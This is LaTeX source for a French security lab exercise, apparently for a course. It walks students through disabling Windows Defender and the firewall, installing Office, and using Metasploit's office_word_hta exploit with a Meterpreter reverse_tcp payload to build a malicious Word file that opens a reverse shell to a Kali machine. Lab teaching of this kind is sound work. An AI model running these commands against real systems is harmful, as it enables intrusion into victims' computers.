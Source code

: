 \documentclass{article}
\newcommand{\tit}[1]{
\begin{center}
    \Large{\textbf{{#1}}}
\end{center}
}
\begin{document}
\tit{TP N\(^{\boldsymbol{\circ}}\)\hspace{0.1cm}2}

\vspace{0.5cm}

\begin{enumerate}
    \item Lancer les deux machines virtuelles kali linux et windows , et assure la connectiviter avec la commande \texttt{ping} .
\item Desactiver windows defender et le par-feu de la machine virtuelle windows , pourquoi les desactiver ? 
\item Installer office 2013 sur la machine virtuelle via le lien : \href{https://www.malavida.com/en/soft/microsoft-office-2013/download}{https://www.malavida.com/en/soft/microsoft-office-2013/download} , et on aura 
besoin de 7-zip pour unzip le fichier : \href{https://www.7-zip.org/}{https://www.7-zip.org/} , apres telechargement on mount le fichier.
 
\item On va utilier metasploit dans kali linux taper les commandes suivant :
\begin{itemize}
    \item \texttt{msfconsole} pour lancer l'interface de commande principale de Metasploit.
    \item \texttt{use exploit/windows/fileformat/office\_word\_hta} pour sélectionner l'exploit qui permet d'intégrer un exécutable malveillant dans un fichier word.
    \item \texttt{set payload windows/meterpreter/reverse\_tcp} : définit le payload utilisé pour établir une connexion inverse (reverse shell) depuis la machine cible Windows vers Kali Linux via TCP , c'est quoi reverse shell?
    \item \texttt{show options} : affiche les options actuelles du payload. Vérifiez que l'option \texttt{LHOST} correspond bien à l'adresse IP de votre machine Kali. Si ce n'est pas le cas, utilisez la commande : \texttt{set LHOST <IP\_KALI>}. Assurez-vous également que \texttt{LPORT} est configuré sur 4444 , Que remarquez-vous ?
    \item \texttt{exploit} : lance l'écoute et attend que la victime ouvre le fichier malveillant pour établir la connexion Meterpreter, expliquer toute les lignes que vous avez apres l'execution de cetter commande.
\end{itemize}


\end{enumerate}
\end{document}
